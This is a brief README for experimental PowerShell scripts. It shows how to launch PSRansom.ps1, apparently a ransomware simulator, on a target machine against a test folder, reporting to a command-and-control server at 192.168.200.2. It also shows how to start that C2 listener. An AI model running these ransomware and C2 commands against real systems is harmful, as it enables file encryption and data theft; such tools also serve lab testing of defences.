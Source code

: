 # WorkinProgress
Experimental Scripts
On Target Machine:
.\PSRansom.ps1 -e C:\Users\bob\Desktop\TESTIT -s 192.168.200.2 -p 80 -x -Demo

On C2:

.\C2Server.ps1 * 80
